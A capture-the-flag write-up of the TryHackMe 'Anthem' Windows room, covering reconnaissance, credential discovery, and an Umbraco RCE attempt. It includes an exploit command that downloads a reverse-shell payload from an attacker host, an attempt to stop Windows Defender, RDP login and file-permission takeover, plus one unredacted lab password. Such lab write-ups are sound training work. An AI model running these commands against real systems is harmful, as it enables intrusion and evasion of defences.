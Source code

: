 ```bash
# PLATFORM          . THM
# CTF NAME          . Anthem
# DESCRIPTION       . Exploit a Windows machine in this beginner level challenge.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/anthem
```

```bash
sudo nmap -sSVC -T5 -Pn -p- 10.10.254.142 -oN anthem
```

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-12-07T13:11:38+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-LU09299160F
| Not valid before: 2023-12-06T13:07:13
|_Not valid after:  2024-06-06T13:07:13
| rdp-ntlm-info: 
|   Target_Name: WIN-LU09299160F
|   NetBIOS_Domain_Name: WIN-LU09299160F
|   NetBIOS_Computer_Name: WIN-LU09299160F
|   DNS_Domain_Name: WIN-LU09299160F
|   DNS_Computer_Name: WIN-LU09299160F
|   Product_Version: 10.0.17763
|_  System_Time: 2023-12-07T13:10:32+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- By inspecting the source code, we can find the `/search`, `/categories`, `/tags` and `archive` directories.

- The `ffuf` command adds a few files/directories on this list

```
ffuf -u http://10.10.254.142/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .txt,.php -t 100
```

```
Archive                 [Status: 301, Size: 118, Words: 6, Lines: 4]
archive                 [Status: 301, Size: 118, Words: 6, Lines: 4]
authors                 [Status: 200, Size: 4075, Words: 769, Lines: 112]
blog                    [Status: 200, Size: 5399, Words: 1311, Lines: 127]
Blog                    [Status: 200, Size: 5399, Words: 1311, Lines: 127]
categories              [Status: 200, Size: 3546, Words: 561, Lines: 104]
install                 [Status: 302, Size: 126, Words: 6, Lines: 4]
robots.txt              [Status: 200, Size: 192, Words: 17, Lines: 11]
robots.txt              [Status: 200, Size: 192, Words: 17, Lines: 11]
rss                     [Status: 200, Size: 1855, Words: 240, Lines: 30]
search                  [Status: 200, Size: 3472, Words: 520, Lines: 93]
Search                  [Status: 200, Size: 3472, Words: 520, Lines: 93]
RSS                     [Status: 200, Size: 1855, Words: 240, Lines: 30]
sitemap                 [Status: 200, Size: 1047, Words: 94, Lines: 30]
SiteMap                 [Status: 200, Size: 1047, Words: 94, Lines: 30]
tags                    [Status: 200, Size: 3599, Words: 579, Lines: 105]
```

- Most of the pages are irelevant to us. However, if we read the first article on the blog, we can find an email address `JD@anthem.com` which is the address of the author, `Jane Doe`.

- This is important as it gives us the clear syntax used for email addresses.

- `Robots.txt` file reveals the following content

```
{redacted}!

# Use for all search robots
User-agent: *

# Define the directories not to crawl
Disallow: /bin/
Disallow: /config/
Disallow: /umbraco/
Disallow: /umbraco_client/
```

- However, only `/umbraco` is relevant to us. 

- Here, the CTF holds our hand a bit and asks us about the Administrator username and email.

- To gather this, we need to head to the second article on the blog and search the lyrics of the poem on the internet. 

- This will reveal the name of the Administrator and, using the naming convention from above, his email address.

```
 S{REDACTED}y
 {redacted}@anthem.com
```

- Using the `email` and the string from `robots.txt`, `{redacted}!`, we're able to login to the `Umbraco CMS`.

- Alright. I was doing some overthinking here trying to get a reverse shell ; 

- I tried a bunch of RCE vulnerabilities from exploit-db targeting Umbraco ; most didn't work, two of them looked promising but outputted some python errors and I didn't wanted to spend time trying to fix them yet.

- Then, I've moved to metasploit and found a module which ... wasn't working on our Umbraco version.

- Finally, I found a vulnerability that allowed for RCE [here](https://github.com/noraj/Umbraco-RCE) and seemed to work, unlike its exploit-db counterparts.

- And here... I went down the loophole again. The syntax is

```
python3 exploit.py -u user -p psw -i 'http://ip' -c command -a args
```

```
python3 exploit.py -u <user> -p {redacted}! -i 'http://10.10.116.113' -c powershell -a "Invoke-WebRequest -Uri http://attacker_IP:80/rev_shell.exe -OutFile shell.exe"

Invoke-WebRequest : Access to the path 'C:\windows\system32\inetsrv\shell.exe' is denied.
```

- Using the command above, I tried transferring `rev_shell.exe` from my host, which is a reverse shell generated via msfvenom ;

- If you look to the output, it tried to write it to a path where we don't have write access.

- I assume all I had to do was to change `-OutFile` to `C:\Temp\shell.exe` or something similar .. but it didn't work :)

```
Error parsing the XSLT:System.Xml.Xsl.XslLoadException: Unrecognized escape sequence An error occurred at (1,107).
   at System.Xml.Xsl.XslCompiledTransform.LoadInternal(Object stylesheet, XsltSettings settings, XmlResolver stylesheetResolver)
   at umbraco.macro.CreateXsltTransform(XmlTextReader xslReader, Boolean debugMode)
   at umbraco.presentation.umbraco.developer.Xslt.xsltVisualize.visualizeDo_Click(Object sender, EventArgs e)
```

- However, my `python webserver` received a GET request, so I assumed this was because the script couldn't parse an output to return when the file transfer finished.

```
10.10.116.113 - [07/Dec/2023 23:38:54] "GET /rev_shell.exe HTTP/1.1" 200 
```

- I tried running the file... but with no luck. 

- Then, I tried different Powershell reverse shells until I got here.

```
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

- So yeah, "I'll just disable Windows defender" - I said :) 

```
python3 exploit.py -u <user> -p UmbracoIsTheBest! -i 'http://10.10.116.113' -c sc -a "stop windefend"

[SC] OpenService FAILED 5:

Access is denied.
```

- Ooops. Then.... I REMEMBERED SOMETHING. Look at the NMAP output.

- Did you see it? We have port 3389 open and I totally forgot about it. And yes... the credentials for the CMS work on RDP too.

```
xfreerdp /u:SG /v:10.10.116.113 /cert-ignore /dynamic-resolution 
```

- And we're in :) Not that hard... huh?

- The room guides us again and tells us that the Administrator password is available somewhere on the system and it's hidden.

- So I went to C:\ (wanted to go to Users -> Administrator) and then to `View -> Hidden items`. A folder `backups` appeard in the file explorer and it container a text file that couldn't be read by us.

- `Right Click, Properties, Security, Advanced` and assigned the file to my user, marking it with `Full Access`. 

- Then, you can switch to Administrator account with the password found.

**WEB FLAGS**

1. First blog post source code
2. Main page source code
3. Navigate to the profile of Jane Doe.
4. Second blog post source code

**TIP**: CTRL + F after THM to see them easier. I spent more time finding these without CTRL+F than anything else :) 

**HOST FLAGS**

1. User: User's desktop.
2. Root: Administrator's desktop.